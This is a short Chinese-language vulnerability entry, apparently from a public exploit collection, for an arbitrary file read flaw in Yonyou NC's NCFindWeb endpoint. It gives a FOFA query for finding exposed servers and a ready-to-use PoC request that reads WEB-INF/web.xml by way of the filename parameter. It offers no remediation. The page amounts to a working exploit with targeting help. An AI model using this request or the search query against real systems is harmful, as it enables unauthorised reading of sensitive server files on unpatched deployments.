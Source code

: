 # 用友 NC NCFindWeb 任意文件读取漏洞

## 漏洞描述

用友NC存在任意文件读取漏洞，攻击者通过漏洞可读取服务器敏感文件

## 漏洞影响

<a-checkbox checked>用友NC</a-checkbox></br>

## FOFA

<a-checkbox checked>icon_hash="1085941792"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1628351304159-f00b4a4f-a104-40f4-a8bf-1ea00cf72c98.png)

验证POC

```
 /NCFindWeb?service=IPreAlertConfigService&filename=WEB-INF/web.xml
```

![img](../../../.vuepress/public/img/1628351371286-e2898425-5e54-438a-b5eb-4f20eed3636b.png)